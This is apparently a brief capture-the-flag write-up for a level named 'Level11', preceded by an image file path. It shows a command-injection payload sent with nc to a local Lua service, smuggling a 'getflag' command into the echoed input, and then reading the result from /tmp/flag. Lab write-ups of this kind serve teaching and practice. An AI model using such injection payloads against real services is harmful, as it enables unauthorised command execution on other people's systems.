 # Level11

Let's exploit the `level11.lua` script with its unsecure execution of `echo` with the input parameters.
>`echo " lol ; getflag > /tmp/flag #" | nc 127.0.0.1 5151`

Get the flag
>`cat /tmp/flag`
